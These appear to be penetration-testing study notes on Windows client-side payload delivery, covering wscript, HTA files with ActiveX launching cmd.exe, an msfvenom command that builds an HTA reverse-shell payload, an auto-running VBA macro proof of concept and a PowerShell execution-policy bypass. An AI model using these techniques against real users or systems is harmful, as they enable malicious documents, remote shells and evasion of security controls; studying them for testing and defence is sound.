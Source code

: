 
#### Windows Scripting Host

- Runs batch files
- wscript.exe, used for executing windows visual basic scripts

Execute script with wscript.exe
```powershell
wscript <file_name>
```

If vba files are blocked you can run the script with another file extension
```powershell
wscript /e:VBScript c:<file_name>
```

#### HTML Application

- HTA pages that contain VBA, HTML and JavaScript content
- mshta is used to execute hta files


Example Code
```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Creating a payload based on a hta file
-p for the type of payload
-f for the type of file the payload will become
-o the name of the payload with the correct file extension
```bash
msfvenom -p windows/x64/reverse_shell_tcp -f hta-psh LHOST=<local_ip> LPORT=<local_port> -o <file_name>.hta
```


#### Visual Basic for Application

- Used for automating tasks from the keyboard and mouse for windows applications

Basic code example to open up the calculator application 
```vb
Sub DocumentOpen()
  PoC
End Sub 

Sub AutoOpen()
  PoC
End Sub

Sub PoC()
  Dim payload as String 
  payload = "calc.exe"
  CreateObject("Wscript.Shell").Run payload,0 
End Sub
```

#### PowerShell - PSH

- Object Oriented Programming Language
- Executed from Dynamic Language Runtime in .NET
- Execution Policy - By default windows doesn't allow code to be executed as .ps1

Getting around execution restrictions
```powershell
powershell -ex bypass -File <file_name>.ps1
```

